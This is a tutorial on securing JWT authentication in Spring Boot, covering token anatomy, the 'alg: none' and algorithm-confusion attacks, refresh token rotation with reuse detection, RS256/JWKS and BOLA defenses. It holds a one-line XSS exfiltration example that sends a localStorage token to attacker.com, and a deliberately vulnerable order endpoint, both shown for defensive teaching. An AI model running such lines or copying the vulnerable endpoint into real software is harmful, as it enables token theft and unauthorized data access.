



# Enterprise JWT Architecture & Security

In modern backend engineering, **Authentication** proves identity (*"Who are you?"*), while **Authorization** enforces permissions (*"What resources are you allowed to access or mutate?"*).

Carrying authentication state via JSON Web Tokens (JWT) enables horizontally scalable, stateless microservices. However, naive JWT implementations—such as issuing 30-day non-expiring access tokens stored in browser `localStorage`—create catastrophic security vulnerabilities that expose entire user bases to account takeovers.

---

## 1. JWT Cryptographic Anatomy & Common Vulnerabilities

A JSON Web Token (RFC 7519) is a cryptographically signed, URL-safe string composed of three distinct parts separated by dots (`.`):

```text
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImF1dGgta2V5LTAxIn0.
eyJzdWIiOiI5ODQyIiwiZW1haWwiOiJhbGljZUBleGFtcGxlLmNvbSIsInJvbGVzIjpbIlJPTEVfVVNFUiJdLCJpYXQiOjE3MjYwMDAwMDAsImV4cCI6MTcyNjAwMDkwMH0.
q7O2y9sX5b_...[Cryptographic Signature]
```



### 1.1 Registered Standard Claims
- `sub` (Subject): The unique, immutable identifier of the principal (e.g., UUID or user ID `9842`).
- `iss` (Issuer): The identity provider that issued the token (e.g., `https://auth.company.com`).
- `aud` (Audience): The intended recipient service (e.g., `https://api.company.com`).
- `exp` (Expiration Time): Unix epoch timestamp after which the token is invalid.
- `nbf` (Not Before): Unix epoch timestamp before which the token must not be accepted.
- `iat` (Issued At): Unix epoch timestamp indicating when the token was minted.
- `jti` (JWT ID): Unique identifier for the token, used for replay attack prevention.

<Warning>
A JWT is **signed, not encrypted**! Anyone who intercepts the token can decode the Base64Url string and read its payload. Never store passwords, credit card numbers, or sensitive PII inside JWT claims.
</Warning>

### 1.2 Two Catastrophic JWT Vulnerabilities

#### 1. The `alg: "none"` Attack
In broken JWT libraries, an attacker modifies the token header to `{"alg": "none"}`, changes the payload claim to `{"sub": "admin"}`, strips the signature, and submits the token. Insecure parsers accept the token without verifying any signature! 
- **Defense**: Explicitly reject tokens specifying `alg: "none"` in your JWT decoder configuration.

#### 2. The Algorithm Confusion Attack (RSA to HMAC)
If an application uses asymmetric RSA (RS256) where the server signs with a private key and verifies with a public key, an attacker can modify the token header to symmetric `{"alg": "HS256"}`. 
If the backend uses the same verification method and passes its RSA public key string as the verification key, the HMAC validator treats the public key string as the symmetric shared secret. The attacker, possessing the public key, signs a forged admin token using HMAC-SHA256!
- **Defense**: Strictly whitelist allowed algorithms (`JWSAlgorithm.RS256`) during decoder bean creation.

---

## 2. The Dual-Token Architecture: Access + Refresh Tokens

Stateless access tokens cannot be revoked on demand without maintaining a centralized distributed blacklist (which destroys the performance benefit of stateless tokens). 

To balance security and scalability, modern backends implement the **Dual-Token Architecture**:

| Token Type | Lifespan | Transmission & Storage | Primary Purpose |
| :--- | :--- | :--- | :--- |
| **Access Token** | **10 to 15 minutes** | Transmitted via `Authorization: Bearer <token>` in RAM memory. | Authorizes individual REST API requests at the resource server. |
| **Refresh Token** | **7 to 30 days** | Stored in an `HttpOnly`, `Secure`, `SameSite=Strict` cookie. | Exchanged at `/api/auth/refresh` to issue a new Access/Refresh pair. |



### Why `localStorage` is an Enterprise Anti-Pattern
Storing tokens in browser `localStorage` exposes them to any JavaScript running on the page. If a third-party npm package, analytics script, or CDN injection contains a Cross-Site Scripting (XSS) vulnerability, an attacker runs:
```javascript
fetch("https://attacker.com/steal?token=" + localStorage.getItem("token"));
```
By storing the Refresh Token in an **`HttpOnly` Cookie**, the browser forbids JavaScript from reading the cookie value entirely (`document.cookie` returns nothing), completely neutralizing token theft via XSS!

---

## 3. Refresh Token Rotation (RTR) & Family Reuse Detection

What happens if an attacker manages to steal a refresh token from network transit?

Without **Refresh Token Rotation (RTR)**, the attacker can silently generate new access tokens for 30 days. RTR enforces that **every refresh token is strictly single-use**. When presented, it is invalidated and replaced with a brand-new refresh token.

### Automatic Theft Detection via Token Families
Every token belongs to an immutable cryptographic `family_id`. If an invalidated token is presented again (indicating that both the legitimate user and an attacker hold copies of the token lineage), the backend detects **Token Reuse** and **immediately revokes the entire token family**, locking out the attacker instantly!

```mermaid
sequenceDiagram
    autonumber
    actor LegitimateUser as Legitimate User
    actor Attacker as Attacker (Has Stolen R1)
    participant AuthServer as Auth Server (Token Family Store)

    Note over LegitimateUser,AuthServer: 1. Legitimate user uses Token R1 to refresh
    LegitimateUser->>AuthServer: POST /refresh (Token R1)
    AuthServer->>AuthServer: Mark R1 as USED; Issue R2 (Family F-100)
    AuthServer-->>LegitimateUser: Returns Token R2
    
    Note over Attacker,AuthServer: 2. Attacker attempts to use stolen Token R1
    Attacker->>AuthServer: POST /refresh (Token R1)
    AuthServer->>AuthServer: ALERT: Token R1 was ALREADY USED!
    AuthServer->>AuthServer: REUSE DETECTED: Revoke ENTIRE Family F-100!
    AuthServer-->>Attacker: 401 Unauthorized (Session Revoked)
    
    Note over LegitimateUser,AuthServer: 3. Legitimate user next attempts to refresh
    LegitimateUser->>AuthServer: POST /refresh (Token R2)
    AuthServer-->>LegitimateUser: 401 Unauthorized (Security Alert: Please log in again)
```

### 3.1 Database Schema for Token Families

```sql
CREATE TABLE refresh_tokens (
    id BIGSERIAL PRIMARY KEY,
    user_id BIGINT NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    token_hash VARCHAR(64) NOT NULL UNIQUE,
    family_id UUID NOT NULL,
    is_used BOOLEAN NOT NULL DEFAULT FALSE,
    is_revoked BOOLEAN NOT NULL DEFAULT FALSE,
    expires_at TIMESTAMP WITH TIME ZONE NOT NULL,
    created_at TIMESTAMP WITH TIME ZONE NOT NULL DEFAULT CURRENT_TIMESTAMP
);

CREATE INDEX idx_refresh_tokens_lookup ON refresh_tokens(token_hash);
CREATE INDEX idx_refresh_tokens_family ON refresh_tokens(family_id);
```

### 3.2 Production Token Refresh & Reuse Service

```java
package com.example.security.auth;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.security.authentication.BadCredentialsException;
import org.springframework.stereotype.Service;
import org.springframework.transaction.annotation.Transactional;

import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.time.Instant;
import java.time.temporal.ChronoUnit;
import java.util.HexFormat;
import java.util.Optional;
import java.util.UUID;

@Service
public class RefreshTokenService {

    private static final Logger log = LoggerFactory.getLogger(RefreshTokenService.class);
    private final JdbcClient jdbcClient;
    private final JwtTokenProvider jwtTokenProvider;

    public RefreshTokenService(JdbcClient jdbcClient, JwtTokenProvider jwtTokenProvider) {
        this.jdbcClient = jdbcClient;
        this.jwtTokenProvider = jwtTokenProvider;
    }

    public record RefreshResult(String newAccessToken, String newRawRefreshToken) {}

    @Transactional
    public RefreshResult rotateToken(String rawIncomingToken) {
        String tokenHash = hashToken(rawIncomingToken);

        // Fetch token record by cryptographic hash
        Optional<TokenRecord> recordOpt = jdbcClient.sql("""
            SELECT id, user_id, family_id, is_used, is_revoked, expires_at
            FROM refresh_tokens
            WHERE token_hash = :hash
        """)
        .param("hash", tokenHash)
        .query(TokenRecord.class)
        .optional();

        if (recordOpt.isEmpty()) {
            throw new BadCredentialsException("Invalid refresh token.");
        }

        TokenRecord record = recordOpt.get();

        // 1. REUSE DETECTION: If an already-used token is presented again, revoking family!
        if (record.isUsed() || record.isRevoked()) {
            log.error("SECURITY ALERT: Token reuse detected for family {}! Revoking all sessions for user {}",
                    record.familyId(), record.userId());
            
            jdbcClient.sql("UPDATE refresh_tokens SET is_revoked = TRUE WHERE family_id = :familyId")
                .param("familyId", record.familyId())
                .update();

            throw new BadCredentialsException("Security violation: Session terminated.");
        }

        // 2. Check Expiration
        if (record.expiresAt().isBefore(Instant.now())) {
            throw new BadCredentialsException("Refresh token has expired.");
        }

        // 3. Mark current token as USED (atomic update)
        jdbcClient.sql("UPDATE refresh_tokens SET is_used = TRUE WHERE id = :id")
            .param("id", record.id())
            .update();

        // 4. Generate New Token in the SAME family
        String newRawToken = UUID.randomUUID().toString();
        String newHash = hashToken(newRawToken);
        Instant newExpiry = Instant.now().plus(7, ChronoUnit.DAYS);

        jdbcClient.sql("""
            INSERT INTO refresh_tokens (user_id, token_hash, family_id, expires_at)
            VALUES (:userId, :hash, :familyId, :expiresAt)
        """)
        .param("userId", record.userId())
        .param("hash", newHash)
        .param("familyId", record.familyId())
        .param("expiresAt", newExpiry)
        .update();

        // 5. Issue new short-lived Access Token
        String newAccessToken = jwtTokenProvider.generateAccessToken(record.userId());

        return new RefreshResult(newAccessToken, newRawToken);
    }

    private String hashToken(String rawToken) {
        try {
            MessageDigest digest = MessageDigest.getInstance("SHA-256");
            byte[] hash = digest.digest(rawToken.getBytes(StandardCharsets.UTF_8));
            return HexFormat.of().formatHex(hash);
        } catch (NoSuchAlgorithmException e) {
            throw new IllegalStateException("SHA-256 not available", e);
        }
    }

    private record TokenRecord(Long id, Long userId, UUID familyId, boolean isUsed, boolean isRevoked, Instant expiresAt) {}
}
```

---

## 4. Asymmetric Signing (RS256) & JWKS Key Distribution

In microservices architectures, symmetric signing (`HS256`) is dangerous because every microservice verifying tokens must possess the shared secret key. If a developer logs the secret or one minor service is breached, an attacker can forge valid tokens for the entire enterprise.

**Production Standard**: Use asymmetric **RS256** (RSA 2048/4096-bit) or **ES256** (ECDSA):
- **Private Key**: Guarded exclusively inside the Auth Server to sign tokens.
- **Public Key**: Exposed publicly via a **JSON Web Key Set (JWKS)** endpoint (`/.well-known/jwks.json`).



### 4.1 Sample JWKS Response (`/.well-known/jwks.json`)

```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "alg": "RS256",
      "kid": "auth-key-2026-09",
      "n": "u1wK_...[RSA Public Modulus]...",
      "e": "AQAB"
    }
  ]
}
```

### 4.2 Spring Boot 3 Resource Server Configuration

In any downstream microservice (Resource Server), verifying JWTs requires only two lines of configuration in `application.yml`:

```yaml
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          jwk-set-uri: "https://auth.example.com/.well-known/jwks.json"
```

Spring Security automatically downloads the public keys, caches them, validates signatures, verifies `exp` and `nbf` timestamps, and injects the authenticated `JwtAuthenticationToken` into the `SecurityContextHolder`.

---

## 5. Method-Level Security & Broken Object Level Authorization (BOLA / IDOR)

According to the OWASP API Security Top 10, **Broken Object Level Authorization (BOLA / IDOR)** accounts for over 40% of real-world backend data leaks.

A BOLA vulnerability occurs when an endpoint verifies that a user is logged in, but fails to verify that the logged-in user actually **owns** the requested resource:

```java
// VULNERABLE BOLA CODE:
@GetMapping("/orders/{orderId}")
public OrderResponse getOrder(@PathVariable Long orderId) {
    // BUG: Any authenticated user can view ANY OTHER user's order by changing the ID!
    return orderRepository.findById(orderId)
            .map(OrderResponse::from)
            .orElseThrow();
}
```

### 5.1 Defense 1: Spring Method Security with SpEL

```java
@PreAuthorize("hasRole('ADMIN') or #order.customerId == authentication.principal.id")
public void updateOrder(Order order) {
    orderRepository.save(order);
}
```

### 5.2 Defense 2: Tenancy Scoping at the Database Layer (Gold Standard)

Never rely exclusively on application-level `if` checks. Always scope database lookups to both the resource ID and the authenticated user ID:

```java
@GetMapping("/orders/{orderId}")
public OrderResponse getOrder(
        @PathVariable Long orderId,
        @AuthenticationPrincipal AuthenticatedUser user) {

    // SAFE: Database query strictly guarantees multi-tenant ownership
    return orderRepository.findByIdAndCustomerId(orderId, user.id())
            .map(OrderResponse::from)
            .orElseThrow(() -> new ResourceNotFoundException("Order not found: " + orderId));
}
```

---

## 6. Active Recall Interview Mastery

<AccordionGroup>
  <Accordion title="1. Why should you store refresh tokens in HttpOnly cookies instead of browser localStorage?">
    Storing tokens in `localStorage` makes them completely accessible to any JavaScript running within the application. If the application has an XSS (Cross-Site Scripting) vulnerability via an unescaped UI render or a compromised third-party npm script, the attacker can execute `localStorage.getItem()` and steal the token.
    
    `HttpOnly` cookies cannot be accessed or read by client-side JavaScript (`document.cookie` ignores them). The browser automatically includes the cookie in requests to the auth origin, preventing XSS-based token exfiltration.
  </Accordion>

  <Accordion title="2. How does Refresh Token Rotation (RTR) protect users if a refresh token is stolen?">
    RTR makes every refresh token single-use. When a user presents Token R1, the server marks R1 as used and issues R2 within the same cryptographic `family_id`.
    
    If an attacker intercepted Token R1 and attempts to use it later, the server detects that R1 has already been used. This triggers **Family Reuse Detection**: the server immediately revokes every active token sharing that `family_id`. The legitimate user will be asked to log in again, and the attacker's access is immediately cut off.
  </Accordion>

  <Accordion title="3. What is the difference between HS256 and RS256 signing for JWTs? Which should you use in microservices?">
    - **HS256 (HMAC-SHA256)**: Symmetric signing. The same secret key is used to both sign and verify tokens.
    - **RS256 (RSA-SHA256)**: Asymmetric signing. The issuing server signs tokens with a private key, and consuming servers verify signatures using a public key.
    
    In microservices, **RS256 is the standard**. If HS256 were used, every microservice would need the private secret key, increasing the attack surface. With RS256, microservices only need the public key (fetched via JWKS), meaning even if a microservice is breached, the attacker cannot forge new tokens.
  </Accordion>

  <Accordion title="4. What is the 'alg: none' vulnerability in JWT implementations?">
    The JWT specification originally permitted an algorithm header `{"alg": "none"}` for unsigned tokens. In poorly coded libraries, if an attacker manually altered a valid token's header to `{"alg": "none"}` and stripped the signature, the parser skipped signature verification and accepted the payload claims as trusted. 
    
    This allowed attackers to forge arbitrary tokens (e.g. `{"sub": "admin"}`) without possessing any cryptographic keys. Production backends explicitly disallow and reject the `none` algorithm during decoder instantiation.
  </Accordion>

  <Accordion title="5. What is BOLA / IDOR, and what is the single most effective defense against it?">
    **Broken Object Level Authorization (BOLA)** occurs when an endpoint accepts an object ID (e.g., `/api/documents/1042`) and returns the object without verifying that the authenticated user is authorized to view that specific record.
    
    The single most effective defense is **Database Tenancy Scoping**: enforcing the ownership check directly in the SQL query:
    ```sql
    SELECT * FROM documents WHERE id = :id AND owner_user_id = :authenticatedUserId;
    ```
    If the document belongs to another user, the query returns 0 rows, resulting in a clean `404 Not Found` without leaking information.
  </Accordion>
</AccordionGroup>

---

## 7. Done Checklist

<Check>
Access tokens are short-lived (10 to 15 minutes) and kept in client RAM memory.
</Check>
<Check>
Refresh tokens are stored in `HttpOnly`, `Secure`, `SameSite=Strict` cookies to neutralize XSS theft.
</Check>
<Check>
Refresh Token Rotation (RTR) with family-based reuse detection is implemented to automatically revoke compromised sessions.
</Check>
<Check>
Asymmetric signing (RS256/ES256) is used, with public keys exposed via a standard JWKS endpoint (`/.well-known/jwks.json`).
</Check>
<Check>
Resource Server explicitly whitelists valid cryptographic algorithms and rejects `alg: "none"`.
</Check>
<Check>
All resource retrieval queries scope by `authenticated_user_id` to eliminate Broken Object Level Authorization (BOLA).
</Check>
